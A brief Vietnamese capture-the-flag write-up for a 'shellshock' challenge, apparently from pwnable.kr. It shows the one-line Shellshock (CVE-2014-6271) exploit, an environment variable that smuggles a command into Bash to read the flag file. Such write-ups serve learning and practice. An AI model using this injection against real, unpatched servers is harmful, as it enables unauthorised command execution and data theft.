

# shellshock
## Phân tích
- Một bug về Unix Bash tên Shellshock


## Khai thác

```
shellshock@pwnable:~$ env x='() { :; }; ./bash -c "cat flag"' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```